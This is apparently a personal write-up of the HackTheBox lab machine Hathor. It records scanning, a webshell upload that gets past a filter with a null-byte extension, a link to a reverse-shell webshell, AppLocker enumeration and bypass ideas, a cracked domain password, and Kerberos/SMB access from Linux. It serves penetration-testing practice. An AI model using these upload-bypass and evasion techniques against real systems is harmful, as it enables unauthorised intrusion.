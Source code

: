 # Rustscan & Nmap
```bash
rustscan -a $IP 

sudo nmap -sC -sV -oA nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49674,53876,65133,65142 $IP

xsltproc -o beauty-scan.html /opt/nmap-bootstrap-xsl/nmap-bootstrap.xsl nmap.xml

DNS:hathor.windcorp.htb
Domain: windcorp.htb0
```

* https://github.com/honze-net/nmap-bootstrap-xsl#build-an-html-file-for-sharing

# Shell as windcorp/web
### Webshell
80 -> Web title -> Google default creds -> File Transfer

Upload webshell -> bypassing by adding `%00.jpg` -> "Copy" the file inorder to rename to get the `.aspx` extenstion.

### Enum
* https://0xdf.gitlab.io/2022/11/19/htb-hathor.html#shell


### INSOMNIA Shell
Since I know that both PowerShell and unsigned binaries like `nc.exe` are going to fail connecting out, I’ll try a more full-featured webshell, like Insomnia. It has a built in reverse shell capability:

* https://github.com/A1vinSmith/pentest/blob/master/shell/insomnia_shell.aspx

# Shell as Bill
### Enum
```cmd powershell
c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-18032022-044046.csv
type exported_windcorp-18032022-044046.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)

c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-04102021-113140.csv
type exported_windcorp-04102021-113140.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'

c:\Get-bADpasswords\Accessible\CSVs>whoami
whoami
windcorp\web

c:\Get-bADpasswords\Accessible\CSVs>powershell $ExecutionContext.SessionState.LanguageMode
powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage			<- CLM

c:\Get-bADpasswords\Accessible\CSVs>powershell get-applockerPolicy -effective -xml
powershell get-applockerPolicy -effective -xml
<AppLockerPolicy Version="1"><RuleCollection Type="Appx" EnforcementMode="Enabled"><FilePublisherRule Id="a9e18c21-ff8f-43cf-b9fc-db40eed693ba" Name="(Default Rule) All signed packaged apps" Description="Allows members of the Everyone group to run packaged apps that are signed." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="*" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="0.0.0.0" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule></RuleCollection><RuleCollection Type="Dll" EnforcementMode="Enabled"><FilePublisherRule Id="5b74e91f-e7d9-4348-a21b-047d2901c659" Name="Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="*" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule><FilePathRule Id="059bf360-e712-427a-8255-59d182bc4cd5" Name="%OSDRIVE%\share\scripts\7-zip64.dll" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll" /></Conditions><Exceptions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll:*" /></Exceptions></FilePathRule><FilePathRule Id="3737732c-99b7-41d4-9037-9cddfb0de0d0" Name="(Default Rule) All DLLs located in the Program Files folder" Description="Allows members of the Everyone group to load DLLs that are located in the Program Files folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*" /></Conditions></FilePathRule><FilePathRule Id="3a07aecc-17f3-43e5-911b-ddb7e4d7353f" Name="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" Description="" UserOrGroupSid="S-1-5-21-3783586571-2109290616-3725730865-10102" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" />
```

With AppLocker enabled the files that a user can execute get restricted by the AppLocker policy. Looking at
the policy, we can see that AppLocker trusts Microsoft as a publisher. So `Sysinternals` tools can be used
to find writable paths to bypass AppLocker rules. We can use the tool `Accesschk`.

First of all, we download it on our local machine and unzip the archive. Now, we need to find a way to
transfer the executable to the remote machine. Using common Powershell commands like `Copy-Item`,
`wget` or `iwr` yielded no results, most likely due to firewall rules . So, an easy bypass to this problem is to
utilize the File Manager option from the website once again after we change the extension of the file to
`.txt`

```bash
crackmapexec smb $IP -u beatricemill -p '!!!!ilovegood17'
SMB         10.129.47.158   445    10.129.47.158    [*]  x64 (name:10.129.47.158) (domain:10.129.47.158) (signing:True) (SMBv1:False)
SMB         10.129.47.158   445    10.129.47.158    [-] 10.129.47.158\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTE
```

### Kerberos on Linux (Linux Lateral Movement)
Linux clients can authenticate to Active Directory servers via Kerberos as a Windows machine would.

To use the `kinit` command, which is used to acquire a Kerberos ticket-granting ticket (TGT) for the current user. To request a TGT, we just need to call kinit without parameters and enter the user's AD password.

When users attempt to use Kerberos and specify a principal or user name without specifying what administrative Kerberos realm that principal belongs to, the system appends the default realm. The default realm may also be used as the realm of a Kerberos service running on the local machine. Often, the default realm is the uppercase version of the local DNS domain.

But since I left it empty, I need to config the `/etc/krb5.conf` with the victim domain now. Let's use the infos from rust and nmap.

* https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/system-level_authentication_guide/configuring_a_kerberos_5_server
* https://docs.bmc.com/docs/decisionsupportserverautomation/85/locating-active-directory-kdcs-350325160.html
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#active-directory-servers

```bash
nslookup -type=srv _kerberos._tcp.windcorp.htb
Server:         10.129.47.158
Address:        10.129.47.158#53

_kerberos._tcp.windcorp.htb     service = 0 100 88 hathor.windcorp.htb.

sudo kinit beatricemill
Password for beatricemill@WINDCORP.HTB: 

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N -k
WARNING: The option -k|--kerberos is deprecated!
session setup failed: NT_STATUS_CONNECTION_RESET

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```